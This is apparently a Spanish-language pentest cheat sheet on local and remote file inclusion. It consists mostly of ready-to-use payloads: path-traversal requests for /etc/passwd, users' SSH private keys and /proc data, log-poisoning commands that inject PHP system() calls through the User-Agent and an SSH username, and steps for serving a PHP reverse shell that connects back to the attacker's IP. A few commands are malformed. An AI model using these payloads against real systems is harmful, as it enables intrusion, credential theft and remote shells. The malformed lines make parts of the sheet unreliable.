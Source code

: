 # LFI
### Directory traversal | File path traversal
Replace LFI payloads:
../../../etc/passwd%00.png
to
../../../etc/passwd%00index.html
EJP:
```shell
/image?filename=25.jpg
```

```bash
/image?filename=../../../etc/passwd%00.png
```

### Para ir al principio

```bash
/image?filename=../../../../../../../../../../../../../etc/passwd
```

### Usuarios

```bash
curl -s "/image?filename=/etc/passwd" | grep "sh$"
```

### ID_RSA por usuario

```bash
/image?filename=/home/<user>/.ssh/id_rsa
```

### Procesos que se estan ejecutando

```bash
/image?filename=/proc/sched_debug
```

### Obtener ip interna, loopback y interfaces de red ( Docker ).

```bash
curl -s "/image?filename=/proc/net/fib_trie" | grep -i "host local" -B 1 | grep -oP '\d{1,3},\.\d{1,3},\.\d{1,3},\.\d{1,3}'
```

### Obtener puertos internos.

```bash
for port in $(curl -s "/image?filename=/proc/net/tcp" | awk '{print $2}' | grep -v "local_address" | awk '{print $2}' FS=":" | sort -u); do echo $(echo "ibase=16; $port" | bc); done
```

### Log Poisoning

#### Por apache2

```bash
curl -s -H "User-Agent: <?php system('whoami'); ?>" "/image?filename=/var/log/apache2/access.log"
```

En el navegador ir a: /image?filename=/var/log/apache2/access.log y el php interpretara el whoami dando www-data

#### Por auth - ssh

```bash
/var/log/auth.log"
```

ssh '<?php system("echo d2hvYW1pCg== | base64 -d | bash"); ?>'@<ip>

En el navegador ir a: /image?filename=/var/log/auth.log y el php interpretara el whoami en base64 dando www-data

### RFI a RCE
Detectar si se pide un archivo, en este caso un wp-load.php
```bash
php -S 0.0.0.0:8000
/image?filename=http://<ip>/
[404]:(null) /wp-load.php - No such file or directory
```
  
https://pentestmonkey.net/tools/web-shells/php-reverse-shell - download php-reverse-shell-1.0.tar.gz

```bash
tar -xf php-reverse-shell-1.0.tar.gz | mv 7z x php-reverse-shell-1.0/php-reverse-shell.php wp-load.php
sed -i 's/127.0.0.1/<ip-attacante>/' wp-load.php 
sed -i 's/1234/443/' wp-load.php 
```

En el navegador ir a: /image?filename=http://<ip>/
  
## References:

LFI Bypass + RFI + Wrappers

https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/File%20Inclusion#lfi--rfi-using-wrappers
